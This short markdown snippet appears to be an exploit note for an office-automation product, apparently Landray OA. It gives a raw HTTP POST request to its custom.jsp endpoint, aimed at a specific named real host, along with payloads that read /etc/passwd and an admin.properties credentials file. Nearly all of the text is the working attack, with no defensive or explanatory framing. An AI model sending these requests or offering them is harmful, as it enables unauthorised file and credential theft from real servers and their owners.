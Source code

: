 ## 某凌OA前台代码执行
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: www.ynjd.cn:801
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: /
Connection: Keep-Alive
Content-Length: 42
Content-Type: application/x-www-form-urlencoded

var={"body":{"file":"file:///etc/passwd"}}
```
var={"body":{"file":"file:///etc/passwd"}}  // linux


var={"body":{"file":"/WEB-INF/KnssConfig/admin.properties"}}  //windows
